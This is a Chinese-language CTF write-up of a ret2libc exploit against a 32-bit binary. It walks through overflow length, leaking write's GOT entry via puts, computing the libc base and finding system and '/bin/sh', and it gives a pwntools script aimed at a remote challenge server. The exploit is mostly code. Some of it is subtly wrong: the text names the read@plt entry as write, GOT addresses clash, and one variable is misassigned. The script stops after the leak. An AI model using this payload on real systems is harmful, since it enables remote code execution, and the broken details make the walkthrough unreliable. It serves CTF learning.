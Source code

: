 ##### 测量溢出长度
测量得padding88个无效字符后可以控制EIP
##### 获取write函数的地址
因为write函数一开始就已经使用过，所以这个时候的got表的内容是真实的地址
可以使用ELF导入libc后用got函数进行获取
或者objdump出汇编代码找到如下信息：
```disassemble
08048420 <read@plt>:
 8048420:	ff 25 0c a0 04 08    	jmp    DWORD PTR ds:0x804a00c
 8048426:	68 00 00 00 00       	push   0x0
 804842b:	e9 e0 ff ff ff       	jmp    8048410 <.plt>
```
其中`0x804a00c`就是write函数在got表中的地址
##### 获取write函数的偏移
这里使用pwntools的elf导入libc库，再用symbols进行定位
```python
from pwn import *
libc = ELF('libc.so.6')
write_off = libc.symbols['write']
```
##### 计算基地址
这里就要开始构造payload，目的是让函数在返回的时候控制EIP让它跳转到puts函数，然后把write函数的got表中的值泄露出来。
`payload = 'a'*88 + p32(puts_addr) + p32(main_addr) + p32(write_got)`
泄露之后用真实地址减去偏移就可以得到基地址
`base_addr =  write_addr - write_off`
##### 计算system和"/bin/sh"地址
```python
from pwn import *
libc = ELF('libc.so.6')
write_off = libc.symbols['system']
bin_sh_off = libc.search('/bin/sh').next()
system_addr = system_off + base_addr 
bin_sh_addr = bin_sh_off + base_addr
```

#### EXP
```python
from pwn import *

#context.log_level = 'debug' 

libc = ELF('libc.so.6')
p = remote('117.50.59.220',12345)
puts_addr = 0x08048460
main_addr = 0x080486f9
write_off = libc.symbols['write']
system_off = libc.symbols['system']
bin_sh_off = libc.search('/bin/sh').next()
write_got = 0x804a028
#log.info(hex(put_got))
log.info('write_off: '+hex(write_off))
log.info('system_off: '+hex(system_off))
log.info('bin_sh_off: '+hex(bin_sh_off))

payload = 'a'*88 + p32(puts_addr) + p32(main_addr) + p32(write_got)
p.recvuntil(" ?")
p.send(payload)
p.recvuntil('? (0 - 1024)\n')
sleep(0.5)
p.sendline('1')

print p.recv()
recvinfo = p.recv().split('\n')[1].replace('\x00','')
```